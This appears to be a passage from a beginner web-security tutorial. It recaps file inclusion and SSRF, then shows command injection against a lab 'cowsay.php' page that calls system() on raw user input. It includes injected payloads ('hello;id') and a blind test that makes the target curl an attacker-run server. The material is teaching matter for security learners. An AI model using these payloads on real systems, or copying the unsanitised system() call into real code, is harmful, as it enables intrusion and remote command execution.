


#### Summary File Inclusion

`LFI` - Local File Inclusion is a vulnerability where you have arbitrary file read on a target system and can read files outside the scope of the website

`RFI` - Remote File Inclusion is a vulnerability where a website can load the web pages stored on another website. This typically leads to remote code execution. 

`SSRF` - Server side request forgery is when you can trick a website to access a resource running on the targets local host that you should not have access to. This either means tricking the site to sending a request to the resource or in this case abusing `RFI` to load the resource directly. 


### Command Injection

The final topic of this crash course is command injection. Command injection occurs when a website run system commands using unsanitized user input which allows the attacker to inject additional commands. 







There is a `cowsay.php` page that appears to make a cow say whatever is inserted into the `message=` field. As an attacker we want to fuzz this field to see if there is anything interesting we can do. 

It turns out this web page is really just running the `cowsay` binary with whatever input we provide it. 

```php
system("cowsay ". $message);
```

So we can try entering `;` to see if we can execute additional commands. 

```
message=hello;id
```



And the `id` command executed so we know we have command execution on the target. 


Sometimes a site doesn't display the results of system commands. In this case when testing you may want to try having the target issue a curl request to test for command injection. 


We can spin up a simple `http` server using python and test for command injection by trying to inject a `curl` request. 

```
message=hello;curl http://192.168.6.128:8080/test.txt
```

Looking at the web server we see that we were sent a request which proves that the `curl` command was injected and ran. If we didn't get a request then either the site is not vulnerable to command injection or maybe the site doesn't have `curl` installed. 



It is important when testing for injections that you try different things because a site may be vulnerable and you just didn't try the right payload. But also don't try command injection on every parameter or input field in a website either. When black box testing it has to make sense that the input could be used in command injection. In this case `cowsay` is a known command line binary so seeing that the website is using `cowsay` is a good hint that the input is probably being used in a `system()` operation to execute a system command. It does not make sense to test for command injection on `page=` parameters like we saw in the File Inclusion section. In that case it makes sense to test for file inclusion. Lot's of beginners tend to learn about one vulnerability and then just start trying it on every site they visit because they are not thinking about what they are doing and if what they are doing makes any sense. 
